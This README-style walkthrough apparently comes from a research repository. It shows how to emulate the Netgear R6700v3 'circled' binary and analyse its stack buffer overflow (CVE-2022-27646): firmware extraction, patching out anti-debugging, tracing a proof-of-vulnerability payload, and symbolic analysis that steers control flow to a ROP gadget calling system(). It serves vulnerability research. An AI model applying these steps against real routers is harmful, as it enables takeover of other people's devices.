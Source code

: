 # Exploiting a Stack Buffer Overflow on the Netgear R6700v3 (CVE-2022-27646)
## 1. Preparation / Setup
### 1.1 Host System
- Install the following dependencies:
  - git
  - binwalk (https://github.com/ReFirmLabs/binwalk)
- Clone the project repository:
  ```
  git clone https://github.com/pdamian/netgear_r6700v3_circled.git && cd netgear_r6700v3_circled/
- Extract the R6700v3 firmware with *binwalk*:
  ```
  binwalk -e -M -C firmware/ firmware/R6700v3-V1.0.4.120_10.0.91.zip
  ```
- Copy the following files to the firmware's root filesystem:
  ```
  # Variable pointing to the root filesystem
  export ROOTFS="$(pwd)/firmware/_R6700v3-V1.0.4.120_10.0.91.zip.extracted/_R6700v3-V1.0.4.120_10.0.91.chk.extracted/squashfs-root"
  
  # Copy pre-built gdbserver binary (or compile your own statically-linked version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/gdbserver $ROOTFS/gdbserver
  
  # Copy pre-built libnvram.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libnvram.so $ROOTFS/libnvram.so
  
  # Copy pre-built libcircled.so library (or compile your own version; arch: armv7-eabihf, libc: uclibc)
  cp firmware/bins/libcircled.so $ROOTFS/libcircled.so

  # Patch out the anti-debugging functionality (allow LDPRELOAD) of the circled binary
  python3 firmware/circled.patch.py $ROOTFS/bin/circled $ROOTFS/bin/circled.patched
  
  # Copy circled.sh script (wrapper to emulate binary circled)
  cp firmware/circled.sh $ROOTFS/circled.sh
  ```
- Copy the directories `$ROOTFS/` and `server/` to an ARMHF guest system (e.g. a *QEMU* ARMHF Debian VM).
### 1.2 ARMHF Guest System
- In the following, we assume that the variable $ROOTFS points to the copied firmware's root filesystem.
- Configure conservative ASLR as being used on the Netgear R6700v3:
  ```
  echo 1 | sudo tee /proc/sys/kernel/randomize_va_spac
  ```
- Chroot into the root filesystem:
  ```
  sudo mount -t proc /proc/ $ROOTFS/proc/
  sudo mount -t sysfs /sys/ $ROOTFS/sys/
  sudo mount -o bind /dev/ $ROOTFS/dev/
  sudo chroot $ROOTFS/ /bin/sh
  export SHELL=/bin/sh
  ```
## 2. Morion Tracing
Use the following steps to trace the binary *circled* with a proof-of-vulnerability (PoV) payload (as e.g. identified by a fuzzer):
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 1    | Guest          | `python3 server/circled.server.py --payload "pov"`                           | Start HTTP server delivering proof-of-vulnerability (PoV) payloads      |
| 2    | Guest (chroot) | `/circled.sh --gdb`                                                          | Emulate binary *circled* with GDB attached (and therefore no ASRL)      |
| 3    | Host  (morion) | `cp circled.init.yaml circled.yaml && gdb-multiarch -q -x circled.trace.gdb` | Collect an execution trace of the binary *circled*                      |

## 3. Morion Symbolic Execution
Use the following steps to execute the collected trace symbolically and analyse for potential control flow hijacking vulnerabilities:
| Step | System         | Command                                                                      | Explanation                                                             |
|------|----------------|------------------------------------------------------------------------------|-------------------------------------------------------------------------|
| 4    | Host  (morion) | `morion_control_hijacker circled.yaml --disallow_user_inputs`                | Symbolically analyse the trace for potential control flow hijacks       |
| 5.1  | Host  (morion) | `morion_control_hijacker circled.yaml --skip_state_analysis`                 | Symbolically analyse the trace for potential control flow hijacks       |
| 5.2  | Host  (morion) | `quit`                                                                       | Ignore notification about unrestricted `r11/fp` register                |
| 5.3  | Host  (morion) | `%run -i circled.rop1.py`                                                    | Try jump to ROP gadget 1: `0xc9b8: mov r0, r6; bl #0x94a0 <system@plt>` |
| 5.4  | Host  (morion) | `%run -i circled.rop2.py`                                                    | Put argument for function `system@plt`                                  |
## 2. References
- Emulating Netgear R6700v3 cicled binary:
  - https://medium.com/@INTfinity/1-1-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-1-5bab391c91f2
  - https://medium.com/@INTfinity/1-2-emulating-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-part-2-cf1571493117
  - https://medium.com/@INTfinity/1-3-exploiting-and-debugging-netgear-r6700v3-circled-binary-cve-2022-27644-cve-2022-27646-a80dbaf1245d
- Emulating IoT Firmware Made Easy:
  - https://boschko.ca/qemu-emulating-firmware/
- Defeating the Netgear R6700v3:
  - https://www.synacktiv.com/en/publications/pwn2own-austin-2021-defeating-the-netgear-r6700v3.html
- Chroot:
  - https://wiki.archlinux.org/title/Chroot#Using_chroot
- Ready-to-Use Cross-Compilation Toolchains:
  - https://toolchains.bootlin.com/
- NVRAM Emulator:
  - https://github.com/firmadyne/libnvram
